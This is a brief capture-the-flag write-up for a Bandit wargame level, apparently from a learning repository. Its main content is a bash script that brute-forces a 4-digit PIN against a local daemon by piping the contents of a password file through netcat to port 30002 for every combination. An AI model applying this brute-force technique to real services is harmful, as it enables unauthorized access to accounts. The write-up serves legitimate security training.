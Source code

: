 # Level 24-25


## Level Goals

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  

## write-up

So write a script that will try all the 10000 combinations.
##### Script:
	#!/bin/bash
	
	for i in {0..9}
	do
		for j in {0..9}
		do
			for k in {0..9}
			do
				for l in {0..9}
				do
				echo
				echo ---------
				echo $i$j$k$l
				echo "$(cat /etc/bandit_pass/bandit24) $i$j$k$l" | nc -v localhost 30002 >> /tmp/bandit25pass.txt
				done
			done
		done
	done  



